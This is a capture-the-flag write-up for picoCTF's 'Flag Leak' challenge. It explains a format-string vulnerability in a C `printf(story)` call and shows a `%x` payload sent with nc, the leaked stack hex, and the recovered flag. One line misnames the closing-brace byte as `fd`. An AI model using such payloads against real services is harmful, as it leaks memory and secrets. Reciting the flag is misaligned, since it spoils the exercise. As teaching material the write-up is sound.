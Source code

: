 # Flag Leak - 300 pts

### Key points

- Format strings

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:

```
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> picopicopico
Here's a story -
picopicopico
```

---

## Solution

Here's the source code for the `vuln()` function:

```
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

The program reads a user input and simply prints it back out, but using [`printf()`](https://documentation.help/C-Cpp-Reference/printf.html). This is vulnerable to a format string exploit.

An example of a proper use of `printf()` is:

```
printf("This is the flag: %s", "picoCTF{n0p3}");
>>> This is the flag: picoCTF{n0p3}
```

Basically, `printf()` substitutes format flags (indicated by a `%` sign) in a base string with the corresponding arguments. Here, `printf()` is not supplied any arguments; it only prints our output. What if we put format flags in our input?

When more arguments than format flags are provided, `printf()` may start reading or even writing to the stack.

Let's enter a payload of a bunch of `%x` format flags to leak the stack in hexadecimal.

```
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story -
ff816660ff8166808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365fbad2000a16231000f7fd8990804c00080494100804c000ff81674880494182ff8167f4ff8168000ff81676000f7dceee5
```

`6f636970` is `pico` in hex (little endian), and `fd` is our closing brace `'}'`. Make sure to include 3 characters after `7d` because of endianness. Let's grab that chunk and convert it:

```
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365
```

---

## Flag:

> `picoCTF{l34k1ng_Fl4g_0ff_St4ck_c2e94e3d}`
